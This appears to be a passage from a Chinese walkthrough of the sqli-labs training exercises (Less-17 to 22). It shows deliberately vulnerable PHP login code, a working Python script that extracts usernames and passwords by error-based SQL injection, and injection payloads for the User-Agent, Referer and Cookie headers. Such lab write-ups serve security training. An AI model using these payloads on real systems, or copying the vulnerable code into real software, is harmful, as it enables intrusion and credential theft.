error_reporting(0);

function check_input($con,$value)
	{
	if(!empty($value))
		{
		// truncation (see comments)
		$value = substr($value,0,15);
		}

		// Stripslashes if magic quotes enabled
		if (get_magic_quotes_gpc())
			{
			$value = stripslashes($value);
			}

		// Quote if not a number
		if (!ctype_digit($value))
			{
			$value = "'" . mysqli_real_escape_string($con, $value) . "'";
			}
		
	else
		{
		$value = intval($value);
		}
	return $value;
	}

// take the variables
if(isset($_POST['uname']) && isset($_POST['passwd']))

{
//making sure uname is not injectable
$uname=check_input($con,$_POST['uname']);  

$passwd=$_POST['passwd'];


//logging the connection parameters to a file for analysis.
$fp=fopen('result.txt','a');
fwrite($fp,'User Name:'.$uname."\n");
fwrite($fp,'New Password:'.$passwd."\n");
fclose($fp);


// connectivity 
@$sql="SELECT username, password FROM users WHERE username= $uname LIMIT 0,1";

$result=mysqli_query($con, $sql);
$row = mysqli_fetch_array($result, MYSQLI_BOTH);
//echo $row;
	if($row)
	{
  		//echo '<font color= "#0000ff">';	
		$row1 = $row['username'];  	
		//echo 'Your Login name:'. $row1;
		$update="UPDATE users SET password = '$passwd' WHERE username='$row1'";
		mysqli_query($con,$update);
  		echo "<br>";
	
	
	
		if (mysqli_error($con))
		{
			echo '<font color= "#FFFF00" font size = 3 >';
			print_r(mysqli_error($con));
			echo "</br></br>";
			echo "</font>";
		}
		else
		{
			echo '<font color= "#FFFF00" font size = 3 >';
			//echo " You password has been successfully updated " ;		
			echo "<br>";
			echo "</font>";
		}
	
		echo '';	
		//echo 'Your Password:' .$row['password'];
  		echo "</font>";
	


  	}
	else  
	{
		echo '<font size="4.5" color="#FFFF00">';
		//echo "Bug off you Silly Dumb hacker";
		echo "</br>";
		echo '';
	
		echo "</font>";  
	}
}

?>


</font>
</div>
</body>
</html>
```

传入`uname=admin&passwd=1'`返回`You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'admin'' at line 1`

因此可以使用报错注入

```python
import requests
import time
import re

url = "http://192.168.8.9/sqli-labs/Less-17/"


def get_database_name():
    rule = r"'~(.+?)~'"
    text = ""
    for i in range(1, 100, 20):
        payload = {"uname": "admin", "passwd": "1' and updatexml(1,concat(0x7e,(select substr(group_concat(schema_name),%d,20) from information_schema.schemata),0x7e),1)#" % i, "submit": "Submit"}
        r = requests.post(url=url, data=payload)
        tmp = re.findall(rule, r.text)
        if tmp:
            text += tmp[0]
    return text


def get_table_name():
    rule = r"'~(.+?)~'"
    text = ""
    for i in range(1, 100, 20):
        payload = {"uname": "admin",
                   "passwd": "1' and updatexml(1,concat(0x7e,(select substr(group_concat(table_name),%d,20) from information_schema.tables where table_schema='security'),0x7e),1)#" % i, "submit": "Submit"}
        r = requests.post(url=url, data=payload)
        tmp = re.findall(rule, r.text)
        if tmp:
            text += tmp[0]
    return text


def get_column_name():
    rule = r"'~(.+?)~'"
    text = ""
    for i in range(1, 100, 20):
        payload = {"uname": "admin", "passwd": "1' and updatexml(1,concat(0x7e,(select substr(group_concat(column_name),%d,20) from information_schema.columns where table_name='users'),0x7e),1)#" % i, "submit": "Submit"}
        r = requests.post(url=url, data=payload)
        tmp = re.findall(rule, r.text)
        if tmp:
            text += tmp[0]
    return text


def get_username():
    rule = r"'~(.+?)~'"
    text = ""
    for i in range(1, 100, 20):
        payload = {"uname": "admin", "passwd": "1' and updatexml(1,concat(0x7e,(select substr(group_concat(username),%d,20) from users),0x7e),1)#" % i, "submit": "Submit"}
        r = requests.post(url=url, data=payload)
        tmp = re.findall(rule, r.text)
        if tmp:
            text += tmp[0]
    return text


def get_password():
    rule = r"'~(.+?)~'"
    text = ""
    for i in range(1, 100, 20):
        payload = {"uname": "admin", "passwd": "1' and updatexml(1,concat(0x7e,(select substr(group_concat(password),%d,20) from users),0x7e),1)#" % i, "submit": "Submit"}
        r = requests.post(url=url, data=payload)
        tmp = re.findall(rule, r.text)
        if tmp:
            text += tmp[0]
    return text


print(get_database_name())
print(get_table_name())
print(get_column_name())
print(get_username())
print(get_password())
```

### Less-18

需要对源码进行修改,参照Less-17

登录回显发现uagent



在header中设置`User-Agent: '`回显`You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '192.168.8.1', 'admin')' at line 1`

推测对uagent进行了保存,保存方式为`value('$uagent','$ip','$uname')`

设置header`User-Agent: ' and updatexml(1,concat(0x7e,(length(database())),0x7e),1) and '1'='1`从而构成闭合

构成的sql语句为

```
INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('' and updatexml(1,concat(0x7e,(length(database())),0x7e),1) and '1'='1', '192.168.8.1', 'admin')
```

后面的注入与报错注入类似

### Less-19

需要对源码进行修改,参照Less-17

登录回显发现referer

在header中设置`Referer: '`回显`You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '192.168.8.1')' at line 1`

推测对uagent进行了保存,保存方式为`value('$referer','$ip')`

设置header`Referer: ' and updatexml(1,concat(0x7e,(length(database())),0x7e),1) and '1'='1`从而构成闭合

构成的sql语句为

```
INSERT INTO `security`.`referers` (`referer`, `ip_address`) VALUES ('' and updatexml(1,concat(0x7e,(length(database())),0x7e),1) and '1'='1', '192.168.8.1')
```

后面的注入与报错注入类似

### Less-20

需要对源码进行修改,参照Less-17

登录后返回

```
YOUR USER AGENT IS : Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
YOUR IP ADDRESS IS : 192.168.8.1
DELETE YOUR COOKIE OR WAIT FOR IT TO EXPIRE
YOUR COOKIE : uname = admin and expires: Sat 08 May 2021 - 13:56:57
Your Login name:admin
Your Password:admin
Your ID:8
```

在header中设置`Cookie: uname='asdf`回显`You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'asdf' LIMIT 0,1' at line 1`

对cookie中的uname进行了查询处理

设置header`Cookie: uname=' and updatexml(1,concat(0x7e,(length(database())),0x7e),1)#`

后面的注入与报错注入类似

### Less-21

需要对源码进行修改,参照Less-17

登录后返回

```
YOUR USER AGENT IS : Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
YOUR IP ADDRESS IS : 192.168.8.1
DELETE YOUR COOKIE OR WAIT FOR IT TO EXPIRE
YOUR COOKIE : uname = YWRtaW4= and expires: Sat 08 May 2021 - 14:09:25
Your Login name:admin
Your Password:admin
Your ID:8
```

可以看到uname被base64转码

在header中设置`Cookie: uname=J2FzZGY=`回显`You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'asdf') LIMIT 0,1' at line 1`

可知uname的查询方式为`('$uname')`

对cookie中的uname进行了查询处理

设置header`Cookie: uname=JykgYW5kIHVwZGF0ZXhtbCgxLGNvbmNhdCgweDdlLChsZW5ndGgoZGF0YWJhc2UoKSkpLDB4N2UpLDEpIw==`

后面的注入与报错注入类似

### Less-22

需要对源码进行修改,参照Less-17

与Less-21类似,把闭合方式换成`"`

